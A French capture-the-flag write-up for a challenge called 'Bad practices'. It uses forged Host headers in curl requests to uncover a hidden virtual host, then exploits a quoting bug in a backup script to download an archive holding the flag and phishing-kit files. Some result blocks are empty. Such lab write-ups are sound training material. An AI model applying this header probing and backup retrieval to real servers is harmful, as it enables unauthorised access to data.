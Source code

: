 
## Bad practices

- **Nom**  : Bad practices
- **Point** : 20
- **Description** : They don't seem to use good practices.

###### Solution :

En inspectant la page sur le ``port 80``, on se rend compte de deux choses :
- Ce texte ````
- Ce Code ``<form method="GET" action="../../harvester.php" name="LoginForm" autocomplete="off">``

Ce site est en réalité une fausse page !
Essayons de regarder ce qu'il se passe si on spécifie un ``Host`` en Header en lui mettant la valeur  ``dev.phishing.lan``

```bash
curl 20.126.99.66 > original.html
curl 20.126.99.66 -H 'Host:dev.phishing.lan' > original_with_header.html
diff original.html original_with_header.html
```  
Résultat :
```bash

```

Super ! On apprend l'existence d'une backup !
```bash
curl 20.126.99.66/backup/backup -H 'Host:dev.phishing.lan'
```  

Résultat :
```bash
#!/bin/bash
BACKUPTIME=`date +%b-%d-%y`
RANDOM_STRING=`head /dev/urandom | tr -dc a-f0-9 | head -c 40`
DESTINATION=backup-'$BACKUPTIME'-'$RANDOM_STRING'.tar.gz
SOURCEFOLDER=.
tar -cpzf $DESTINATION $SOURCEFOLDER
```

Il y a ici un problème dans le script , ``RANDOM_STRING`` et ``BACKUPTIME`` ne sont pas exécutés , elles sont entre `` ` `` .
On peut donc aller chercher la backup !:
```bash
curl -H 'Host:dev.phishing.lan' 'http://20.126.99.66/backup/backup-$BACKUPTIME-$RANDOM_STRING.tar.gz'*
```

Dedans on trouve :
```bash
-rwxrwxrwx 1 root root 127K Feb 10  2020 aad.login.js
-rwxrwxrwx 1 root root  211 Feb 28  2020 backup
-rwxrwxrwx 1 root root  11K Feb 10  2020 favicon_a.ico
-rwxrwxrwx 1 root root   32 Feb 28  2020 flag.txt
-rwxrwxrwx 1 root root  632 Feb 12  2020 harvester.php
-rwxrwxrwx 1 root root 7.3K Feb 12  2020 index.php
-rwxrwxrwx 1 root root  85K Feb 10  2020 jquery.1.5.1.min.js
-rwxrwxrwx 1 root root  85K Feb 10  2020 jquery.1.5.1.min.js.1
-rwxrwxrwx 1 root root 8.5K Feb 10  2020 jquery.easing.1.3.js
-rwxrwxrwx 1 root root  26K Feb 10  2020 login.ltr.css
-rwxrwxrwx 1 root root 9.4K Feb 10  2020 logon.css
drwxrwxrwx 1 root root 4.0K Jun 30 14:02 pages
```
